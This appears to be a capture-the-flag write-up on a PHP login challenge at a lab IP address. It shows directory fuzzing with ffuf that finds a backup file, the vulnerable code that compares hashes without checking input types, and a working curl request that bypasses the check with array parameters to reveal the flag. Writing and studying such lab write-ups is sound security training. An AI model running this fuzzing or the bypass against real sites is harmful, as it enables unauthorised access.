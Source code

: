 # Web Exotic Attacks Breaking Hashes

The HTML page hints at a file source.phar in a comment, suggesting source code might be accessible. Direct access to source.phar returns 404 (not found).

Using SecLists [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt) for fuzzing, we search for hidden files and backups:

```bash
ffuf -u http://141.85.224.99:8000/FUZZ -w SecLists/Discovery/Web-Content/common.txt -e .php,.bak,.zip,.tar.gz,.phar -mc 200
```

This revealed a backup file: **source.bak**. Downloading and opening source.bak shows the authentication logic:

```php
if (isset($_POST['username']) && isset($_POST['password'])) {
    if ($_POST['username'] == $_POST['password']) {
        $error = 'Your password can not be your username!';
    } else if (hash('sha256', $_POST['username']) === hash('sha256', $_POST['password'])) {
        die($flag);
    } else {
        $error = 'Invalid credentials!';
    }
}
```

The code requires different username and password but with identical SHA-256 hashes. Finding a real SHA-256 collision is practically impossible. But the code doesn't validate input types before hashing. By submitting array inputs instead of strings, we cause hash() to throw warnings but the flag is revealed:

```bash
curl -s http://141.85.224.99:8000/ \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username[]=""&password[]=&submit=Login'
```

This revealed the flag: **SSS{arr4ys_c4n_b3_n4sty_if_n0t_ch3ck3d}**

```bash
ndrei@DESKTOP-52JT2BC:~$ curl -s http://141.85.224.99:8000/ -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username[]=""&password[]=&submit=Login'
<br />
<b>Warning</b>:  hash() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
<br />
<b>Warning</b>:  hash() expects parameter 2 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
SSS{arr4ys_c4n_b3_n4sty_if_n0t_ch3ck3d}
```
